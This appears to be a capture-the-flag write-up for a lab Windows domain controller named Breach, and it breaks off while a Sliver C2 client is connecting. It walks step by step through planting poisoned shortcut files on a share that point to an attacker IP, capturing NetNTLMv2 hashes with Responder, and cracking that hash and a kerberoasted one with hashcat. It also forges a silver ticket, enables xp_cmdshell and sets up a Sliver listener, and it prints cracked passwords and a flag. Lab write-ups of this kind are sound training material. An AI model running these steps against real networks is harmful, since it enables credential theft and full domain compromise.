


Breach
Nmap scan of the target host
┌──(notroot㉿elysium)-[(master) 1 ~/htb]
└─$ nmap -A -Pn 10.129.38.236
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-24 22:54 PDT
Nmap scan report for 10.129.38.236
Host is up (0.10s latency).
Not shown: 986 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
53/tcp open domain Simple DNS Plus
80/tcp open http Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods:
|_ Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp open kerberos-sec Microsoft Windows Kerberos (server time: 2025-10-25 05:55:31Z)
135/tcp open msrpc Microsoft Windows RPC
139/tcp open netbios-ssn Microsoft Windows netbios-ssn
389/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
445/tcp open microsoft-ds?
464/tcp open kpasswd5?
593/tcp open ncacn_http Microsoft Windows RPC over HTTP 1.0
636/tcp open tcpwrapped
1433/tcp open ms-sql-s Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info:
| 10.129.38.236:1433:
| Version:
| name: Microsoft SQL Server 2019 RTM
| number: 15.00.2000.00
| Product: Microsoft SQL Server 2019
| Service pack level: RTM
| Post-SP patches applied: false
|_ TCP port: 1433
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2025-10-25T05:56:19
|_Not valid after: 2055-10-25T05:56:19
| ms-sql-ntlm-info:
| 10.129.38.236:1433:
| Target_Name: BREACH
| NetBIOS_Domain_Name: BREACH
| NetBIOS_Computer_Name: BREACHDC
| DNS_Domain_Name: breach.vl
| DNS_Computer_Name: BREACHDC.breach.vl
| DNS_Tree_Name: breach.vl
|_ Product_Version: 10.0.20348
|_ssl-date: 2025-10-25T09:57:48+00:00; 0s from scanner time.
3268/tcp open ldap Microsoft Windows Active Directory LDAP (Domain: breach.vl0., Site: Default-First-Site-Name)
3269/tcp open tcpwrapped
3389/tcp open ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info:
| Target_Name: BREACH
| NetBIOS_Domain_Name: BREACH
| NetBIOS_Computer_Name: BREACHDC
| DNS_Domain_Name: breach.vl
| DNS_Computer_Name: BREACHDC.breach.vl
| Product_Version: 10.0.20348
|_ System_Time: 2025-10-25T05:55:48+00:00
|_ssl-date: 2025-10-25T05:56:27+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=BREACHDC.breach.vl
| Not valid before: 2025-09-07T08:04:48
|_Not valid after: 2026-03-09T08:04:48
5985/tcp open http Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: BREACHDC; OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
| smb2-security-mode:
| 3:1:1:
|_ Message signing enabled and required
| smb2-time:
| date: 2025-10-25T05:55:52
|_ start_date: N/A
TRACEROUTE (using port 53/tcp)
HOP RTT ADDRESS
1 105.63 ms 10.10.14.1
2 105.65 ms 10.129.38.236
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 106.28 seconds
As this appears to be a domain controller, I have configured my environment for operation within a Kerberos realm, using tooling for this purpose https://github.com/SYANiDE-/tooling
- entries in /etc/hosts
echo "10.129.38.236 breachdc.breach.vl breach.vl breach breachdc" | sudo tee -a /etc/hosts
- /etc/resolv.conf
domain breach.vlnameserver 10.129.38.236
- /etc/krb5.conf
sudo make_krb5.conf.py -d breachdc.breach.vl -w
- timesync to the domain controller
sudo systemctl start vbox-disable-timesync.servicesudo ntpdate -u breachdc
enumeration¶
The guest account is enabled
┌──(notroot㉿elysium)-[(master) 1 ~/htb]
└─$ nxc smb breachdc.breach.vl -u guest -p ""
SMB 10.129.38.236 445 BREACHDC [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB 10.129.38.236 445 BREACHDC [+] breach.vl\guest:
The guest account has read/write on the share share, and read permissions on the users share.
┌──(notroot㉿elysium)-[(master) 1 ~/htb]
└─$ nxc smb breachdc.breach.vl -u guest -p "" --shares
SMB 10.129.38.236 445 BREACHDC [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB 10.129.38.236 445 BREACHDC [+] breach.vl\guest:
SMB 10.129.38.236 445 BREACHDC [*] Enumerated shares
SMB 10.129.38.236 445 BREACHDC Share Permissions Remark
SMB 10.129.38.236 445 BREACHDC ----- ----------- ------
SMB 10.129.38.236 445 BREACHDC ADMIN$ Remote Admin
SMB 10.129.38.236 445 BREACHDC C$ Default share
SMB 10.129.38.236 445 BREACHDC IPC$ READ Remote IPC
SMB 10.129.38.236 445 BREACHDC NETLOGON Logon server share
SMB 10.129.38.236 445 BREACHDC share READ,WRITE
SMB 10.129.38.236 445 BREACHDC SYSVOL Logon server share
SMB 10.129.38.236 445 BREACHDC Users READ
In the share share:
┌──(notroot㉿elysium)-[(master) 1 ~/htb]
└─$ impacket-smbclient breach.vl/guest@breachdc.breach.vl -no-pass
[...]
# ls
drw-rw-rw- 0 Sat Oct 25 00:35:33 2025 .
drw-rw-rw- 0 Tue Sep 9 03:35:32 2025 ..
drw-rw-rw- 0 Thu Feb 17 03:19:36 2022 finance
drw-rw-rw- 0 Thu Feb 17 03:19:13 2022 software
drw-rw-rw- 0 Mon Sep 8 03:13:44 2025 transfer
# cd transfer
# pwd
/transfer
# ls
drw-rw-rw- 0 Mon Sep 8 03:13:44 2025 .
drw-rw-rw- 0 Sat Oct 25 00:35:33 2025 ..
drw-rw-rw- 0 Thu Feb 17 03:23:51 2022 claire.pope
drw-rw-rw- 0 Thu Feb 17 03:23:22 2022 diana.pope
drw-rw-rw- 0 Wed Apr 16 17:38:12 2025 julia.wong
None of these directories are accessible by guest. But they are usernames, which might come in handy.
The other folders, finance and software are empty.
These users don't have DONT_REQUIRE_PREAUTH set
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-GetNPUsers -dc-host breachdc.breach.vl -usersfile users.txt breach.vl/guest -no-pass
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[-] User claire.pope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User diana.pope doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User julia.wong doesn't have UF_DONT_REQUIRE_PREAUTH set
I used the slinky module to place an .ico on the share share,
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ nxc smb breachdc.breach.vl -u guest -p "" -M slinky -o SERVER=10.10.14.204 NAME=funtime ICO_URI=\\\\10.10.14.204\\test\\icon.ico SHARES=share/software IGNORE=c\$,admin\$,netlogon,sysvol,users --smb-timeout 10
downloaded it, then re-uploaded it into all three folders using impacket-smbclient:
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-smbclient breach.vl/guest@breachdc.breach.vl -no-passImpacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
Type help for list of commands
# ls
drw-rw-rw- 0 Sat Oct 25 01:25:14 2025 .
drw-rw-rw- 0 Tue Sep 9 03:35:32 2025 ..
drw-rw-rw- 0 Sat Oct 25 01:20:09 2025 finance
drw-rw-rw- 0 Sat Oct 25 01:19:56 2025 software
drw-rw-rw- 0 Sat Oct 25 01:20:34 2025 transfer
# use share
# cd finance
# put funtime.lnk
# cd ../software
# put funtime.lnk
# cd ../transfer
# put funtime.lnk
Stood up responder in analyze mode, and eventually I captured an NetNTLMv2-SSP authentication
┌──(notroot㉿elysium)-[(master) 2 ~/htb/machines/breach]
└─$ sudo responder -I tun0 -A
[sudo] password for notroot:
__
.----.-----.-----.-----.-----.-----.--| |.-----.----.
| _| -__|__ --| _ | _ | | _ || -__| _|
|__| |_____|_____| __|_____|__|__|_____||_____|__|
|__|
[+] Poisoners:
LLMNR [OFF]
NBT-NS [OFF]
MDNS [OFF]
DNS [ON]
DHCP [OFF]
[+] Servers:
HTTP server [ON]
HTTPS server [ON]
WPAD proxy [OFF]
Auth proxy [OFF]
SMB server [ON]
Kerberos server [ON]
SQL server [ON]
FTP server [ON]
IMAP server [ON]
POP3 server [ON]
SMTP server [ON]
DNS server [ON]
LDAP server [ON]
MQTT server [ON]
RDP server [ON]
DCE-RPC server [ON]
WinRM server [ON]
SNMP server [ON]
[+] HTTP Options:
Always serving EXE [OFF]
Serving EXE [OFF]
Serving HTML [OFF]
Upstream Proxy [OFF]
[+] Poisoning Options:
Analyze Mode [ON]
Force WPAD auth [OFF]
Force Basic Auth [OFF]
Force LM downgrade [OFF]
Force ESS downgrade [OFF]
[+] Generic Options:
Responder NIC [tun0]
Responder IP [10.10.14.204]
Responder IPv6 [dead:beef:2::10ca]
Challenge set [random]
Don't Respond To Names ['ISATAP', 'ISATAP.LOCAL']
Don't Respond To MDNS TLD ['_DOSVC']
TTL for poisoned response [default]
[+] Current Session Variables:
Responder Machine Name [WIN-DHPV0P7ZJXQ]
Responder Domain Name [SAHT.LOCAL]
Responder DCE-RPC Port [47411]
[*] Version: Responder 3.1.7.0
[*] Author: Laurent Gaffie, <lgaffie@secorizon.com>
[*] To sponsor Responder: https://paypal.me/PythonResponder
[+] Listening for events...
[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.204) is not on the same subnet than the DNS server (10.129.38.236).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.
[Analyze mode: ICMP] You can ICMP Redirect on this network.
[Analyze mode: ICMP] This workstation (10.10.14.204) is not on the same subnet than the DNS server (192.168.50.1).
[Analyze mode: ICMP] Use `python tools/Icmp-Redirect.py` for more details.
[+] Responder is in analyze mode. No NBT-NS, LLMNR, MDNS requests will be poisoned.
[SMB] NTLMv2-SSP Client : 10.129.38.236
[SMB] NTLMv2-SSP Username : BREACH\Julia.Wong
[SMB] NTLMv2-SSP Hash : Julia.Wong::BREACH:b8e16237cccbf32c:374403FAE1D07A04042DB4FBA1642BD5:0101000000000000801EB0A04C45DC0113874E71A609ED8E0000000002000800530041004800540001001E00570049004E002D0044004800500056003000500037005A004A005800510004003400570049004E002D0044004800500056003000500037005A004A00580051002E0053004100480054002E004C004F00430041004C000300140053004100480054002E004C004F00430041004C000500140053004100480054002E004C004F00430041004C0007000800801EB0A04C45DC0106000400020000000800300030000000000000000100000000200000D0EFE4A5B18E1ACF4FD3A7E00E6BC2F32D639EC43CD9B40C9FA69C3E42C199EC0A001000000000000000000000000000000000000900220063006900660073002F00310030002E00310030002E00310034002E003200300034000000000000000000
I was then able to crack the hash quite easily
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ hashcat --identify julia.wong.netntlmv2-ssp
The following hash-mode match the structure of your input hash:
# | Name | Category
======+============================================================+======================================
5600 | NetNTLMv2 | Network Protocol
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ hashcat -m 5600 julia.wong.netntlmv2-ssp /usr/share/wordlists/rockyou.txt --force --quiet
JULIA.WONG::BREACH:b8e16237cccbf32c:374403fae1d07a04042db4fba1642bd5:0101000000000000801eb0a04c45dc0113874e71a609ed8e0000000002000800530041004800540001001e00570049004e002d0044004800500056003000500037005a004a005800510004003400570049004e002d0044004800500056003000500037005a004a00580051002e0053004100480054002e004c004f00430041004c000300140053004100480054002e004c004f00430041004c000500140053004100480054002e004c004f00430041004c0007000800801eb0a04c45dc0106000400020000000800300030000000000000000100000000200000d0efe4a5b18e1acf4fd3a7e00e6bc2f32d639ec43cd9b40c9fa69c3e42c199ec0a001000000000000000000000000000000000000900220063006900660073002f00310030002e00310030002e00310034002e003200300034000000000000000000:Computer1
Credential:
julia.wong:Computer1
Get a ccache
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-getTGT breach.vl/julia.wong:Computer1
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in julia.wong.ccache
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ export KRB5CCNAME=$(pwd)/julia.wong.ccache
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ klist
Ticket cache: FILE:/home/notroot/htb/machines/breach/julia.wong.ccache
Default principal: julia.wong@BREACH.VL
Valid starting Expires Service principal
10/25/2025 01:29:19 10/25/2025 11:29:19 krbtgt/BREACH.VL@BREACH.VL
renew until 10/26/2025 01:29:19
What can julia.wong do¶
read/write on the share share, and read on the users share
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ nxc smb breachdc.breach.vl -k --use-kcache --shares
SMB breachdc.breach.vl 445 BREACHDC [*] Windows Server 2022 Build 20348 x64 (name:BREACHDC) (domain:breach.vl) (signing:True) (SMBv1:False)
SMB breachdc.breach.vl 445 BREACHDC [+] BREACH.VL\julia.wong from ccache
SMB breachdc.breach.vl 445 BREACHDC [*] Enumerated shares
SMB breachdc.breach.vl 445 BREACHDC Share Permissions Remark
SMB breachdc.breach.vl 445 BREACHDC ----- ----------- ------
SMB breachdc.breach.vl 445 BREACHDC ADMIN$ Remote Admin
SMB breachdc.breach.vl 445 BREACHDC C$ Default share
SMB breachdc.breach.vl 445 BREACHDC IPC$ READ Remote IPC
SMB breachdc.breach.vl 445 BREACHDC NETLOGON READ Logon server share
SMB breachdc.breach.vl 445 BREACHDC share READ,WRITE
SMB breachdc.breach.vl 445 BREACHDC SYSVOL READ Logon server share
SMB breachdc.breach.vl 445 BREACHDC Users READ
Nothing particularly interesting in the users share for julia.wong, but the share share, julia.wong directory, found a user.txt.
Flag:
# pwd
/transfer/julia.wong
# cat user.txt
55d33e52bc5fa7a687b9f0dcfa103dda
Get a list of usernames
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-GetADUsers -k -no-pass -all breach.vl/julia.wong@breachdc.breach.vl | awk '{print $1}'
Impacket
[*]
[*]
Name
--------------------
Administrator
Guest
krbtgt
Claire.Pope
Julia.Wong
Hilary.Reed
Diana.Pope
Jasmine.Price
George.Williams
Lawrence.Kaur
Jasmine.Slater
Hugh.Watts
Christine.Bruce
svc_mssql
When trying to kerberoast users, I found a type 18 hash for krbtgt (typically uncrackable), and a type 23 for user svc_mssql, really only the latter is interesting/likely.
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-GetUserSPNs -k -no-pass -usersfile usernames.txt breach.vl/julia.wong@breachdc.breach.vl
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[...]
$krb5tgs$23$*svc_mssql$BREACH.VL$svc_mssql*$a5e7289dba70d9f14d87fe9a9c755c68$5fa599a1f540061fb2ac763183bee9345f919e74475ec9ebd3ed16577467bbac36687f40bde507966e4c69160e124809694d4e439b6cf7b6e13a3fa979d41b89def9d4092e4d500279393a2c4053816ce493380a91cc6d3df537878386c5232d05e55fe5b383595a598a3ba6d851aa8050e24acd3e9262338cbbf217362628cd879d2bf28b71cc8490f4f925985e925e0c11cb034e0f596fdcc880cf776ff89bf074653fc845517fdf20fc000a764d60e8e40f02749fab8d3e933f97b5716c50e25ae5276b63f9f9cdb79310e2b78341e1e28cfd318aebcb161f24ef5375a24aef19fecdbfd6fcec43ef3a68ecd77a9871d5bc60d38b8fefef96bd8a8f3d810f99e072101544c016c59e5ae7e77b6d00374ddb6b8d04e66019cfbe4844d5f6e20ce0da93e5cb90d1166e3443938592c18cef268e1d03ec231386de645d06755c3413364e48cf7f0b2d043e8dfdd77cc1c36683f04ab393d09f80f3801a654d46632492d47a0e3202ee8893be81b99b2321912570ff009583eac925dd6c8cc8cfec9f6722d46fdbdbd9668cc69f381344c0fb2a289e4156e279cd45839f59967db489be7804b68cf4e28338e57265d80c738af907b6da89dd955ba8e4fbf964d302179cfe9b1933fa4c048a7323063c8d533f5109dc44322499332d74fcc1e5e413c836d0d327d32e776907a45aa16b338ab60498c3282ff349f3449db104045167faa0e1dd478fe592aaf0658d9c90083b83463071b26dfc0aed506d0d45e7d6d7eec361112a63390e5e8a302179be563639721362f8ae6a5a7ff7df22c658e855e0708fbc801b97249017540097ae081a63a1f421264dbbe87058043aa70ae5cd07d852a9c83a3ae6fb6be011fb25beed055597518e8ab08245ca90526c4b7ffa9d778c4ffbc91b9b5cdc87f01c92510a1e6a90f353fd695b1b538f6760dd983f1a404d581375b90e0cee7b53770fd448123d2dfcabf056ace05258f2d693d261e4380b81a53c392805e68b235ea14f75dadd658b766cc62829d834123a20624c2cd731083019bc3967bbb03874455cc0a7798af7c4b65329be27df0d3497fc1c3386b9c1cf01f4f9f210610c8fe82c9676be0ea048311245ab7a1b953a2f7b14745ccf3a72c08690bbe58278bed055a37a15cbf7afd650846d941f0bf590f9fafa8bd3b8cc9192731643116b3e1026630fb891833586ee59ac42747b69052aefd46c58275a857c2b0630021d922a223e443ea7eaaffa6374123d1e800fdbf97919a898fc38e9244b2af807bb145e670646d02162f052392bd7e5624ffd01dde9f51f28907df02281f979994bd5cb9a8b19574c346a716b0abac13669813c11dbfdd1bbc8640b62f256f62c1214b9d845992dadee03fa5fb7c28ac6a83b5d0f4675f9a80741e25507132a52710d972d887fcd5d0df9a21490e432be1e8f7a069e3ddef21121c7142f8e54cd29399b00c5adeabc
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ hashcat --identify svc_mssql.hash
The following hash-mode match the structure of your input hash:
# | Name | Category
======+============================================================+======================================
13100 | Kerberos 5, etype 23, TGS-REP | Network Protocol
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ hashcat -m 13100 svc_mssql.hash /usr/share/wordlists/rockyou.txt --force --quiet
$krb5tgs$23$*svc_mssql$BREACH.VL$svc_mssql*$a5e7289dba70d9f14d87fe9a9c755c68$5fa599a1f540061fb2ac763183bee9345f919e74475ec9ebd3ed16577467bbac36687f40bde507966e4c69160e124809694d4e439b6cf7b6e13a3fa979d41b89def9d4092e4d500279393a2c4053816ce493380a91cc6d3df537878386c5232d05e55fe5b383595a598a3ba6d851aa8050e24acd3e9262338cbbf217362628cd879d2bf28b71cc8490f4f925985e925e0c11cb034e0f596fdcc880cf776ff89bf074653fc845517fdf20fc000a764d60e8e40f02749fab8d3e933f97b5716c50e25ae5276b63f9f9cdb79310e2b78341e1e28cfd318aebcb161f24ef5375a24aef19fecdbfd6fcec43ef3a68ecd77a9871d5bc60d38b8fefef96bd8a8f3d810f99e072101544c016c59e5ae7e77b6d00374ddb6b8d04e66019cfbe4844d5f6e20ce0da93e5cb90d1166e3443938592c18cef268e1d03ec231386de645d06755c3413364e48cf7f0b2d043e8dfdd77cc1c36683f04ab393d09f80f3801a654d46632492d47a0e3202ee8893be81b99b2321912570ff009583eac925dd6c8cc8cfec9f6722d46fdbdbd9668cc69f381344c0fb2a289e4156e279cd45839f59967db489be7804b68cf4e28338e57265d80c738af907b6da89dd955ba8e4fbf964d302179cfe9b1933fa4c048a7323063c8d533f5109dc44322499332d74fcc1e5e413c836d0d327d32e776907a45aa16b338ab60498c3282ff349f3449db104045167faa0e1dd478fe592aaf0658d9c90083b83463071b26dfc0aed506d0d45e7d6d7eec361112a63390e5e8a302179be563639721362f8ae6a5a7ff7df22c658e855e0708fbc801b97249017540097ae081a63a1f421264dbbe87058043aa70ae5cd07d852a9c83a3ae6fb6be011fb25beed055597518e8ab08245ca90526c4b7ffa9d778c4ffbc91b9b5cdc87f01c92510a1e6a90f353fd695b1b538f6760dd983f1a404d581375b90e0cee7b53770fd448123d2dfcabf056ace05258f2d693d261e4380b81a53c392805e68b235ea14f75dadd658b766cc62829d834123a20624c2cd731083019bc3967bbb03874455cc0a7798af7c4b65329be27df0d3497fc1c3386b9c1cf01f4f9f210610c8fe82c9676be0ea048311245ab7a1b953a2f7b14745ccf3a72c08690bbe58278bed055a37a15cbf7afd650846d941f0bf590f9fafa8bd3b8cc9192731643116b3e1026630fb891833586ee59ac42747b69052aefd46c58275a857c2b0630021d922a223e443ea7eaaffa6374123d1e800fdbf97919a898fc38e9244b2af807bb145e670646d02162f052392bd7e5624ffd01dde9f51f28907df02281f979994bd5cb9a8b19574c346a716b0abac13669813c11dbfdd1bbc8640b62f256f62c1214b9d845992dadee03fa5fb7c28ac6a83b5d0f4675f9a80741e25507132a52710d972d887fcd5d0df9a21490e432be1e8f7a069e3ddef21121c7142f8e54cd29399b00c5adeabc:Trustno1
Credential:
svc_mssql:Trustno1
Get a ccache
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-getTGT breach.vl/svc_mssql:Trustno1
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Saving ticket in svc_mssql.ccache
This is a good start. Lets examine with Bloodhound.
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ bloodhound-ce-python -k -no-pass -d breach.vl -u julia.wong -dc breachdc.breach.vl -c all --zip -op bloody
INFO: BloodHound.py for BloodHound Community Edition
INFO: Found AD domain: breach.vl
INFO: Using TGT from cache
INFO: Found TGT with correct principal in ccache file.
INFO: Connecting to LDAP server: breachdc.breach.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: breachdc.breach.vl
INFO: Found 15 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: BREACHDC.breach.vl
INFO: Done in 00M 26S
INFO: Compressing output into 20251025015627_bloodhound.zip
Interestingly, Julia.wong is a member of Staff and Print Operators. 
There is nothing particularly interesting about the Staff group, but Print Operators: https://notes.dollarboysushil.com/windows-privilege-escalation/group-privileges/print-operators
The **Print Operators** group is a highly privileged group in Windows that grants its members several significant permissions, including:
- `**SeLoadDriverPrivilege**`: Allows members to load and manage system drivers.
- The ability to manage, create, share, and delete printers connected to a Domain Controller.
- The ability to log on locally to a Domain Controller and shut it down.
There is also the potential to execute shellcode in the context of NT AUTHORITY\System, using the Capcom.sys driver.
Maybe this is something, maybe it is not. I might circle back to this.
One other thing I saw was that there is a domain admin user, christine.bruce, which has password not required set:

That is pretty interesting, but not sure how that could work out from here.
Get shell¶
Both of my controlled users are guests on the mssql instance
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-mssqlclient breach.vl/julia.wong:Computer1@breachdc.breach.vl -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (BREACH\Julia.Wong guest@master)> exit
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-mssqlclient breach.vl/svc_mssql:Trustno1@breachdc.breach.vl -windows-auth
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (BREACH\svc_mssql guest@master)> exit
I do have the credentials for the svc_mssql user, and their spn is MSSQLSvc/breachdc.breach.vl:1433. I could forge a silver ticket for that SPN for christine. Lets do that
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ cat ~/bin/password_to_ntlm_hash.py
#!/usr/bin/env python3
import hashlib
import binascii
def convert_to_ntlm(password):
encoded_password = password.encode('utf-16le')
md4_hash = hashlib.new('md4', encoded_password).digest()
ntlm_hash = binascii.hexlify(md4_hash).decode('utf-8')
return ntlm_hash
password = input("Give password:> ")
ntlm_hash = convert_to_ntlm(password)
print(f"Password: {password}")
print(f"NTLM Hash: {ntlm_hash}")
Hash svc_mssqls password
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ ~/bin/password_to_ntlm_hash.py
Give password:> Trustno1
Password: Trustno1
NTLM Hash: 69596c7aa1e8daee17f8e78870e25a5c
Forge a service ticket for christine.bruce, for the MSSQLSvc/ SPN.
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ impacket-ticketer -domain breach.vl -domain-sid S-1-5-21-2330692793-3312915120-706255856 -spn MSSQLSvc/breachdc.breach.vl:1433 -nthash 69596c7aa1e8daee17f8e78870e25a5c christine.bruce
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for breach.vl/christine.bruce
[*] PAC_LOGON_INFO
[*] PAC_CLIENT_INFO_TYPE
[*] EncTicketPart
[*] EncTGSRepPart
[*] Signing/Encrypting final ticket
[*] PAC_SERVER_CHECKSUM
[*] PAC_PRIVSVR_CHECKSUM
[*] EncTicketPart
[*] EncTGSRepPart
[*] Saving ticket in christine.bruce.ccache
My access when connecting to the mssql instance with these credentials is dbo
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ KRB5CCNAME=$(pwd)/christine.bruce.ccache impacket-mssqlclient -k -no-pass breach.vl/christine.bruce@breachdc.breach.vl
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(BREACHDC\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (150 7208)
[!] Press help for extra shell commands
SQL (BREACH\Administrator dbo@master)>
Enable xp_cmdshell
SQL (BREACH\Administrator dbo@master)> enable_xp_cmdshell
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
INFO(BREACHDC\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
Start sliver-server, enabling multiplayer, also stand up an mtls listener on 8443 with a timeout of 240.
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ sliver-server
[*] Loaded 23 aliases from disk
[*] Loaded 151 extension(s) from disk
███████╗██╗ ██╗██╗ ██╗███████╗██████╗
██╔════╝██║ ██║██║ ██║██╔════╝██╔══██╗
███████╗██║ ██║██║ ██║█████╗ ██████╔╝
╚════██║██║ ██║╚██╗ ██╔╝██╔══╝ ██╔══██╗
███████║███████╗██║ ╚████╔╝ ███████╗██║ ██║
╚══════╝╚══════╝╚═╝ ╚═══╝ ╚══════╝╚═╝ ╚═╝
All hackers gain annihilator
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options
[*] Check for updates with the 'update' command
[server] sliver > multiplayer
[*] Multiplayer mode enabled!
[server] sliver > mtls -t 240 --lport 8443
[*] Starting mTLS listener ...
[*] Successfully started job #3
[server] sliver >
Generate a new operator profile
[server] sliver > new-operator --lhost 10.10.14.204 --save duff --name duff
[*] Generating new client certificate, please wait ...
[*] Saved new client config to: /home/notroot/htb/machines/breach/duff
In another shell, import the profile into sliver-client. Connect.
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ sliver-client import duff
2025/10/25 03:26:23 Saved new client config to: /home/notroot/.sliver-client/configs/duff_10.10.14.204.cfg
┌──(notroot㉿elysium)-[(master) 1 ~/htb/machines/breach]
└─$ sliver-client
? Select a server: duff@10.10.14.204 (a0e0ed1e78716827)
